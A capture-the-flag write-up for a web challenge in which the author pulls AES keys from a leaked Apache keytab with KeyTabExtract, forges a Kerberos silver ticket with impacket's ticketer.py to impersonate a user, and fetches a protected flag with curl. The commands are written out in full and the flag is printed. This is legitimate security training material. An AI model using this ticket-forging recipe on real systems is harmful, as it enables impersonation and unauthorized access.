#### Challenge:

Hi Expert,

some remains of a web server were found on `http://78.128.246.143`. Maybe the administrators didn't finish it, maybe it just started to fall apart without maintenance, but it certainly contains interesting information that needs to be obtained.

Good Luck!

---

#### Solution:

The provided site shows 4 files via `apache` directory view interface:

- `flag.txt` - this obviously contains flag and more obviously we are not authorized to simply get it
- `apache2.conf` - interesting thing here is, that it specifies the authorization mechanism to get the `flag.txt`:
    ```text
    <Files "flag.txt">
		AuthType GSSAPI
		AuthName "Designing an Authentication System: a Dialogue in Four Scenes"
		GssapiCredStore keytab:/opt/ctfb4/web/apache2.keytab
		Require user "euripides@SUPERCLIENT.TCC"
	</Files>
    ```
	- this basically tells us that we have to by authenticated as user `euripides@SUPERCLIENT.TCC`
- `apache2.keytab` - This holds some kind of credentials that will probably be useful.
- `ticketer_mit.c` - This file, I guess, was supposed to be some kind of hint, maybe we were supposed to use it or finish it, but after trying for quite a long time, we just gave up on it and only leveraged the comment `create silver ticket from TGS` in the end.

Bit of googling about `apache2.keytab` leads us to [https://github.com/sosdave/KeyTabExtract](https://github.com/sosdave/KeyTabExtract) which gives us:

```bash
wget http://78.128.246.143/apache2.keytab -O ~/Downloads/apache2.keytab
git clone https://github.com/sosdave/KeyTabExtract
python3 KeyTabExtract/keytabextract.py ~/Downloads/apache2.keytab
```

```text
[!] No RC4-HMAC located. Unable to extract NTLM hashes.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : SUPERCLIENT.TCC
        SERVICE PRINCIPAL : HTTP/ctfb4.tcc
        AES-256 HASH : 16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235
        AES-128 HASH : 3746ead7ac5622b631b397f3e949da14
```

After googling for the phrases `silver ticket` and `TGS` from the `ticketer_mit.c`, we realized that this gives us enough information to perform `kerberos silver ticket attack` (using Apache's encryption key) to create `Ticket Granting Service (TGS)` to user `euripides`. Using the `ticketer.py` script from the [impacket](https://github.com/SecureAuthCorp/impacket.git) suite, we create the `TGS` and send the request for the flag via `curl`. *Note that the `ticketer.py` script needs also the parameter `-domain-sid` but that is not really used in this case, it is there only because it is set as `required` in the parameter processing.*


```bash
git clone https://github.com/SecureAuthCorp/impacket.git

python3 ./impacket/examples/ticketer.py -aesKey "3746ead7ac5622b631b397f3e949da14" -domain "SUPERCLIENT.TCC" -domain-sid "1-2-3-4" "euripides" -spn "HTTP/ctfb4.tcc"

export KRB5CCNAME=./euripides.ccache
klist
curl --negotiate -u : "http://78.128.246.143/flag.txt"
```

*Note that for `curl` to use the username and password from the environment you have to specify parameters`"--negotiate -u : "` as per the line in the `curl` manual:*

```text
If you use a Windows SSPI-enabled curl binary and perform Kerberos V5, Negotiate, NTLM or Digest authentication then you can tell curl to select the user name and password from your environment by specifying a single colon with this option: "-u :".
```

---

<details><summary>FLAG:</summary>

```
FLAG{RhXd-vITI-vpXG-zQ3d}
```

</details>
<br/>
